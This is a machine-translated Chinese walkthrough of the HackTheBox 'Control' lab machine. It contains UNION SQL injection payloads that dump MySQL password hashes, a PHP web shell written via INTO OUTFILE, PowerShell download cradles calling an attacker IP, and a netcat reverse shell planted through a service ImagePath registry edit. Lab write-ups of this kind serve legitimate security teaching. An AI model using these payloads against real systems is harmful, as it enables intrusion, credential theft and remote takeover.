# 黑客框—控件

> 原文：<https://infosecwriteups.com/hackthebox-control-51eac2b08a5a?source=collection_archive---------0----------------------->



[https://www.hackthebox.eu/home/machines/profile/218](https://www.hackthebox.eu/home/machines/profile/218)

## TL；博士:

Control 是一台 Windows 机器，它允许您使用基本的 SQL 注入和一点 PowerShell。这是一个有趣的盒子，在没有 SMB 服务运行的情况下教你 Windows 概念。它从使用 X-Forwarder-For 标头可访问的管理页面开始。对页面的访问允许使用 SQLi，它为您提供了初始访问权限。根部分基本上是不安全的 ACL，它允许您编辑服务的 ImagePath 以产生恶意进程。

## 扫描:

像往常一样，我运行我的初始 nmap 扫描:

```
# nmap -sV -sC -oA nmap/initial -vvv -n 10.10.10.167
```

结果是:



开放端口为 80 运行 IIS 10.0，135 运行 RPC，3306 运行 MySQL。这是非常不同的，因为我期待 MSSQL 在机器上运行，而不是 MySQL，因为这是一台 Windows 机器。还提到我的 IP (10.10.14.7)不允许连接这个 MariaDB 服务器。

我还运行了 TCP 所有端口扫描:

```
# nmap -p- -oA nmap/allports-tcp 10.10.10.167 -vvv -n
```

结果是:



没什么有趣的。如果我没记错的话，新发现的端口通常是 Windows RPC 和 NBT-NS 使用的端口，所以没有什么可利用的。

## 端口 80

访问端口 80:



检查关于:



检查管理员:



我还运行了 Gobuster:

```
gobuster dir -u [http://10.10.10.167](http://10.10.10.167) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobust[200/200]
ut -x php
```

输出是:



值得注意的是，有一个 shell.php 文件，我不确定它是否是盒子的一部分，或者有人在我解决这个问题时也在解决这个问题(我后来找到了答案)。

查看 index.php 的源代码:



它提到了一个待办事项列表。这里重要的是，它提到证书位于 IP 192.168.4.28 的共享“myfiles”中。我知道有一条消息说报头丢失了，为了使用代理，我最初想到它需要我用包含该 IP 的报头访问 admin.php 页面。

## x-转发给:

为了满足我们的要求，我们可以使用 X-Forwarded For 头。来自[https://developer . Mozilla . org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For):



因此，如果我们在报头中包含“X-Forwarded For: 192.168.4.28”，控制机器将认为请求来自该 IP，只是经过我们。我的机器就像一个代理。使用它会导致不同的管理页面:



我现在可以访问管理页面了:



现在知道它包含产品的搜索功能，我测试了它是否容易受到 SQL 注入(SQLi)的攻击:



结果导致语法错误，这也泄露了 MariaDB 服务器正在运行:



知道这容易受到 SQLi 的攻击，我测试了各种有效负载来识别运行在后面的查询。我首先尝试了联合注射:

```
1' UNION SELECT 1,2,3; -- -
```



在这些情况下，您只需枚举查询中使用了多少列，因为 UNION 运算符要求两端具有相同的列。猜测之后，如果我选择 6 列，响应会有所不同:

```
1' UNION SELECT 1,2,3,4,5,6; -- -
```



知道我猜到了正确的列数，我就可以使用 SQL 查询来代替列数。

```
1' UNION SELECT 1,2,3, version(),5,6; -- -
```

它现在泄漏的是数据库版本，而不是数字“4”:



我还可以在我们的上下文中检查当前用户:

```
1' UNION SELECT 1,2,3, user(),5,6; -- -
```



正在检查当前数据库:

```
1' UNION SELECT 1,2,3, database(),5,6; -- -
```



在转储数据库之前，最好尝试映射您是哪个用户以及您在哪个数据库中。我知道列出可用的数据库:

```
1' UNION SELECT 1,2,3,group_concat(schema_name),5,6 from information_schema.schemata; -- -
```



知道没有其他感兴趣的数据库，我尝试获取表“user”下的列

```
1' UNION SELECT 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='user'; -- -
```



然后，我现在从 DB mysql 的表 user 中检索列 user 和 passwords。

```
1' UNION SELECT 1,user,password,4,5,6 from mysql.user; -- -
```



知道我有用户名和散列，我可以尝试使用 Hashcat 来破解它们。通过检查散列的长度，似乎它们是 40 个字符，所以很可能它们是 SHA-1 散列或某种形式的 MySQL 散列。



然后，我检查了 SHA1 的相应模式，并试图用 SHA1 破解，但它不会破解。然后我寻找 MySQL 的散列:



似乎模式 300 满足了我们的字符长度，试图破解它:

```
.\hashcat64.exe -m 300 control-hashes.txt rockyou.txt
```

它能够破解其中一个哈希:


我还把哈希发送到了 Crackstation，这是一个在线密码哈希破解程序。只有在为 CTFs 破解密码时，才使用在线平台，而不是在实际工作中！我这样做是因为这只是一个 CTF。



2/3 的密码被破解的用户经理和赫克托。

## 立足点:

然后，我尝试连接到 MariaDB 端口，但是我的 IP 不被允许，从初始 nmap 扫描也可以看出这一点。



接下来要做的是尝试使用 SQL 注入得到一个 shell。由于这是一台 IIS 服务器，web 根目录的默认位置是 C:\inetpub\wwwroot。从我的 Gobuster 扫描中知道有一个 uploads 目录，我可以猜测 uploads 目录在 C:\inetpub\wwwroot\uploads。然后，我尝试使用 INTO OUTFILE 在磁盘上写文件。还知道 web 服务器使用 PHP 运行，我使用一个简单的 web shell 和系统函数。

```
1' UNION SELECT 1,2,3,4,5,'<?php system($_GET["cmd"]); ?>' into outfile 'c:/inetpub/wwwroot/uploads/sifo.php' ;  -- -
```

现在，当我访问该页面时，我可以验证文件是否上传到了/uploads 目录:



我现在可以使用“cmd”参数运行命令了:



我现在可以将它发送给 Burp，这样我就可以使用更长的命令了。然后我使用了来自 Nishang 的 Powershell 反向 shell，Invoke-PowerShellTcp.ps1 脚本:[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

我将著名的 IEX 摇篮下载转换为 UTF16-le，如果我没记错的话，Powershell 与 Bash 有不同的编码，并将其编码为 base64，以避免通过网络发送它时出现任何问题，然后使用 Powershell 的 flag-encoded 命令运行它。

```
PS C:\ echo -n "IEX(new-object net.webclient).downloadString('[http://10.10.14.7/a.ps1'](http://10.10.14.7/a.ps1'))" | iconv -t utf-16le |base64 -w 0
```

发送到打嗝:



上面的脚本是这样的:

```
powershell.exe -exec bypass -enc "SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdAB"
```

我的 python HTTP 服务器上没有任何点击。我试着用最简单的形式发送摇篮:



我得到了点击率，但没有连接到我的听众。然后，我尝试使用机器上的 wget 下载 netcat 二进制文件:



知道 netcat 下载了，我查了一下目录有没有保存。



我知道得到一个贝壳:



## 用户权限:

我对 X-Forwarded-For 旁路是如何工作的很感兴趣，所以我查看了 admin.php 的文件:



然后我检查监听端口，发现端口 5985 用于 WinRM。它在 0.0.0.0 上侦听，但我的初始扫描没有找到它。扫描它还提到它是过滤过的。



知道我有凭证后，我也在 RPC 上试了一下，但是不起作用。由于 WinRM 正在侦听，我可以尝试使用凭据连接到它。WinRM 类似于 SSH，但工作方式完全不同。我首先生成一个带有旁路策略“执行”的 PowerShell 进程，并创建一个安全字符串，因为 WinRM 只允许对安全字符串进行身份验证。


我还创建了一个 PS 凭证对象(要求您指明计算机名\用户和安全字符串):



然后，我使用凭据对象创建一个会话:



最后，我可以在会话中调用一个命令，并以 Hector 的身份获得我的 shell:



我现在可以读取 user.txt:



从 Hector 到 System32 的权限:

我试着用 PowerShell 得到一个 shell，因为我想知道为什么我不能早点得到一个连接，看起来它被 AV 阻止了:



然后我试着从 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 运行 PowerUp:

```
iex(new-object net.webclient).downloadString('[http://10.10.14.7/p.ps1'](http://10.10.14.7/p.ps1')); Invoke-AllChecks
```



没有能让我找到另一个用户的有用信息。我在这一部分卡住了，有人建议我查看 PowerShell 历史文件。检查历史文件:



我看到有 2 个命令被调用(type $env 字符串只是我的命令的回显)。在谷歌搜索之后，我还可以使用下面的命令来检查历史文件的位置:



你也可以看看这个来自 [0xdf](https://twitter.com/0xdf_) 的博客，它很好地概述了 PowerShell 历史文件。

 [## PowerShell 历史文件

### 我遇到过一个情况，我发现了一个用户的 PSReadline console host _ history . txt 文件，它最后给出了…

0xdf.gitlab.io](https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html) 

第一个命令只是执行路径 HKLM:\SYSTEM\CurrentControlSet 的列表，并通过管道将其传送到 Format-List。第二条命令检查同一路径的 ACL。运行第二个命令:



说明 Control\Hector 有“完全控制权”。这意味着用户 Hector 可以更改系统中服务注册表的值。服务通常有一个“映像路径”，它是一个值条目，指定驱动程序映像文件的完全限定路径。这里的要点是能够通过更改服务的 ImagePath 的值来产生恶意进程。这里的问题是服务需要重新启动。我首先将服务列表的输出存储在变量$service 上，这是一个很长的列表(被截断):



这里的问题是确定我可以重启哪个服务。我从列表的底部开始向上移动。我最终使用了 wuauserv 服务，这是一种用于 Windows Update 的服务。我也想过创建一个脚本来强制我重启哪个服务，但这是现实的。



然后，我可以将 ImagePath 值更改为 netcat 连接:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\hector\music\nc.exe 10.10.14.7 9005 -e cmd.exe " /f
```

然后，我使用 sc.exe 启动服务:

```
sc.exe \\fidelity start wuauserv
```

现在我得到了一个贝壳！在需要劫持服务的进程或图像路径的方法中，总是在获得连接后获取另一个 shell，因为它们通常是不稳定的。



我现在可以阅读 root.txt:



这就是我如何从 HacktheBox 中解决控制问题的！感谢阅读！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)